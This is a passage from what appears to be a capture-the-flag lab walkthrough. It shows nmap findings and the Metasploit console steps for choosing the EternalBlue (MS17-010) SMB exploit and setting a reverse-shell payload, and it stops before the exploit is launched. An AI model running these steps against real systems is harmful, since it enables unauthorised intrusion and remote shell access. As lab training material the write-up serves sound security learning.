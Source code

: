 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.85 seconds

no web service running on 80 or 443.

smb service running and is vulnerable to ms17-010. 

## 3, Exploitation

### TASK 2 Gain Access

Exploit the machine and gain a foothold by using Metasploit.

$ msfconsole

msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

    msf6 > use 0
    or 
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) > 

    Now we need to select the right payload before setup parameters

    msf6 exploit(windows/smb/ms17_010_eternalblue) >  show payloads

    this will list all the payloads. we will select reverse shell

    55  payload/windows/x64/shell/reverse_tcp normal  No Windows x64 Command Shell, Windows x64 Reverse TCP Stager

    msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload payload/windows/x64/shell/reverse_tcp
    payload => windows/x64/shell/reverse_tcp
